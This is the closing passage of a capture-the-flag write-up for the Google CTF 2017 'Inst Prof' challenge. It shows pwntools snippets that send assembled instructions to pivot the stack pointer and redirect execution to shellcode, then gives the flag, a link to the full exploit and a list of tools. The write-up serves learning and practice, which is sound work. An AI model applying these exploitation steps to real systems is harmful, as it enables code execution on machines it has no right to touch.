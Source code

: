 # 0x7ffe34edf120  0x0000562f517c0bc3                       ..|Q/V..
{{< /highlight >}}

At this point we only have to do a few more things.  
First, we set the `return address` to the address of our `ROP gadget`, just to redirect the flow of the program 
after end the current function. Something like `rsp = rsp + 24`.

Lets calculate `r15 = rsp + 24`.
{{< highlight python >}}
p.send(asm('mov r15, rsp') + ret)        # "\x49\x89\xe7" + ret
inst = asm('inc r15') + ret
for i in range(24):
    p.send(inst)                         # "\x49\xff\xc7" + ret
{{< /highlight >}}

And once it is calculated, we use it to update the value of `rsp`:
{{< highlight python >}}
p.send(asm('mov rsp, r15') + ret)        # "\x4c\x89\xfc" + ret
{{< /highlight >}}

And finally we only need to redirect the flow to our shellcode!
{{< highlight python >}}
p.send(asm('mov [rsp], r14'))            # "\x4c\x89\x34\x24"
p.interactive()
{{< /highlight >}}

Complete exploit: [solve2.py](/assets/GoogleCTF2017/Inst Prof/solve2.py).

Answer: CTF{0v3r_4ND_0v3r_4ND_0v3r_4ND_0v3r}

---

#### Video

<a href="https://asciinema.org/a/R71WGFkZWEyonqfK5DLf0l5UN?autoplay=1">
  <img src="https://asciinema.org/a/R71WGFkZWEyonqfK5DLf0l5UN.png"/>
</a>

---

#### References and tools used

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [asciinema](https://asciinema.org) - To record the session.
 * [BinaryStud.io](https://binarystud.io/googlectf-2017-inst-prof-152-final-value.html) - Another solution using r2!
 * [python](https://www.python.org/) and [pwntools](https://github.com/Gallopsled/pwntools) - To code the 
exploitation phase.
 * [shellcode](https://en.wikipedia.org/wiki/Shellcode) - Shellcode explanation.
 * [GOT](https://en.wikipedia.org/wiki/Global_Offset_Table) - Global Offset Table explanation.
 * [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming) - Return Oriented Programming.
